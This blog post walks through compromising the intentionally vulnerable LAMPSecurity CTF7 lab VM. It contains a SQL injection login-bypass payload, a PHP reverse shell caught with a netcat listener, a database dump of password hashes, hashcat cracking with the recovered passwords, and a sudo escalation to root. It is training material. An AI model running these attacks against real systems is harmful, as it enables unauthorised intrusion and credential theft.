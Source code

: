 ```yaml
---
layout: blog_item
title:  "LAMP Security CTF7 - Walkthrough"
date:   2024-04-02 20:00:30
author: Dhruv Ambaliya
description: 'LAMP Security CTF 7 - Walkthrough Guide'
categories: [walkthroughs]
tags:
- CTF
---
```



<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Difficulty Rating:</code></p>
           </td>
           <td>
               <p><i class="fa fa-coffee">Easy</i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}

## Author Description

The LAMPSecurity project is an effort to produce training and benchmarking
tools that can be used to educate information security professionals and test
products.

**Author:** madirish2600

**Download:** [VulnHub](https://www.vulnhub.com/)


## Enumeration

{% highlight bash %}

nmap -v -p 1-65535 -sV -O -sT 192.168.30.134

{% endhighlight %}

<div class="note info">
  <h5>Dislcaimer: Multiple Entry Points</h5>
  <p>The LAMPSecurity series is not particularly challenging, for each VM in the series I've targeted the <b>web application</b> as the entry point.</p>
</div>

### Host Service Enumeration

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Port</th>
      <th>Service</th>
      <th>Version Detection</th>
    </tr>
  </thead>
      <tbody>
        <tr>
           <td>
               <pc><p><code>TCP: 22</code></p></pc>
           </td>
           <td>
               <pc><p>SSH</p></pc>
           </td>
           <td>
               <pc><p>OpenSSH 5.3 (protocol 2.0)</p></pc>
           </td>
        </tr>
        <tr>
           <td>
               <pc><p><code>TCP: 80</code></p></pc>
           </td>
           <td>
              <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.2.15 ((CentOS))</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 139</code></p></pc>
           </td>
           <td>
              <pc><p>Samba</p></pc>
           </td>
           <td>
               <pc><p>Samba smbd 3.X (workgroup: MYGROUP)</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 901</code></p></pc>
           </td>
           <td>
              <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Samba SWAT administration server</p></pc>
           </td>
        </tr>
        <tr>
          <td>
               <pc><p><code>TCP: 8080</code></p></pc>
           </td>
           <td>
              <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.2.15 ((CentOS))</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 10000</code></p></pc>
           </td>
           <td>
              <pc><p>Webmin</p></pc>
           </td>
           <td>
               <pc><p>(Webmin httpd)</p></pc>
           </td>
        </tr>

     </tbody>

</table>
</div>

## Web Application Enumeration

Host enumeration discovered two web application, one on port <code>80</code> and one on port
<code>8080</code>, as with the previous CTF series VM's, other entry points are
ignored and the **web application** is used for the entry point.

## Web Application on Port 8080

Inspection of the web application revealed it's vulnerable to an SQLi
authentication bypass. By Entering <code>' or 1=1 -- .</code> in the username
field an attacker can successfully login as admin.

![SQL Injection Auth Bypass](/img/blog/ctf7/sqli.png)

Admin account:

![Admin Account SQLi](/img/blog/ctf7/admin-login.png)

### PHP Shell Upload

With admin access to the web application it was possible to upload a reverse
shell.

![Reverse PHP Shell](/img/blog/ctf7/upload-shell.png)

Execution of the php shell was not possible via the web application directly.

### Dirbuster

Dirbuster disclosed the location of the file uploads directory
<code>/assets/</code>.

![OWASP Dirbuster](/img/blog/ctf7/dirbuster.png)

### Reverse Shell

![Execute Reverse Shell](/img/blog/ctf7/exec-webshell.png)

Executing the php script resulted in a reverse shell as the user apache:

{% highlight bash %}
[root:~]# nc -n -v -l -p 443
listening on [any] 443 ...
connect to [192.168.221.134] from (UNKNOWN) [192.168.221.133] 58599
Linux localhost.localdomain 2.6.32-279.el6.i686 #1 SMP Fri Jun 22 10:59:55 UTC
2012 i686 i686 i386 GNU/Linux
01:12:47 up  2:37,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
context=system_u:system_r:httpd_t:s0
sh: no job control in this shell
sh-4.1$
{% endhighlight %}

## Local Enumeration

Local enumeration discovered mysql root account could be accessed locally
without a password:

{% highlight bash %}
mysql -u root  and no password worked as the apache user.
{% endhighlight %}

### MySQL

{% highlight bash %}
mysql> select username, password from users;
select username, password from users;
+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+----------------------------------+
| username
| password                         |
+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+----------------------------------+
| brian@localhost.localdomain
| 4cb9c8a8048fd02294477fcb1a41191a |
| john@localhost.localdomain
| 0d9ff2a4396d6939f80ffe09b1280ee1 |
| alice@localhost.localdomain
| 2146bf95e8929874fc63d54f50f1d2e3 |
| ruby@localhost.localdomain
| 9f80ec37f8313728ef3e2f218c79aa23 |
| leon@localhost.localdomain
| 5d93ceb70e2bf5daa84ec3d0cd2c731a |
| julia@localhost.localdomain
| ed2539fe892d2c52c42a440354e8e3d5 |
| michael@localhost.localdomain
| 9c42a1346e333a770904b2a2b37fa7d3 |
| bruce@localhost.localdomain
| 3a24d81c2b9d0d9aaf2f10c6c9757d4e |
| neil@localhost.localdomain
| 4773408d5358875b3764db552a29ca61 |
{% endhighlight %}

### Hashcat md5 cracking

The hashes were placed in a text file using the following format:

{% highlight bash %}
brian@localhost.localdomain:4cb9c8a8048fd02294477fcb1a41191a
john@localhost.localdomain:0d9ff2a4396d6939f80ffe09b1280ee1
alice@localhost.localdomain:2146bf95e8929874fc63d54f50f1d2e3
ruby@localhost.localdomain:9f80ec37f8313728ef3e2f218c79aa23
leon@localhost.localdomain:5d93ceb70e2bf5daa84ec3d0cd2c731a
julia@localhost.localdomain:ed2539fe892d2c52c42a440354e8e3d5
michael@localhost.localdomai:9c42a1346e333a770904b2a2b37fa7d3
bruce@localhost.localdomai:3a24d81c2b9d0d9aaf2f10c6c9757d4e
neil@localhost.localdomain:4773408d5358875b3764db552a29ca61
charles@localhost.localdomai:b2a97bcecbd9336b98d59d9324dae5cf
{% endhighlight %}

NOTE: In order for hashcat to ignore usernames in a hash input file you need to
specify <code>--username </code>

{% highlight bash %}
[root:~]# hashcat --username -m 0 -a 0 crack-ctf7.txt
/usr/share/wordlists/rockyou.txt
{% endhighlight %}

#### Cracked MD5 Hashes

{% highlight bash %}
ed2539fe892d2c52c42a440354e8e3d5:madrid
4cb9c8a8048fd02294477fcb1a41191a:changeme
5d93ceb70e2bf5daa84ec3d0cd2c731a:qwer1234
2146bf95e8929874fc63d54f50f1d2e3:turtles77
9c42a1346e333a770904b2a2b37fa7d3:somepassword
b2a97bcecbd9336b98d59d9324dae5cf:chuck33
{% endhighlight %}

## Local Privilege Escalation

The julia account was able to <code>su</code> to root.

{% highlight bash %}
bash-4.1$ su - julia
su - julia
Password: madrid

[julia@localhost ~]$ sudo -s
sudo -s
[sudo] password for julia: madrid

[root@localhost julia]# id
id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:httpd_t:s0
[root@localhost julia]#
{% endhighlight %}

Thanks for the VM :)
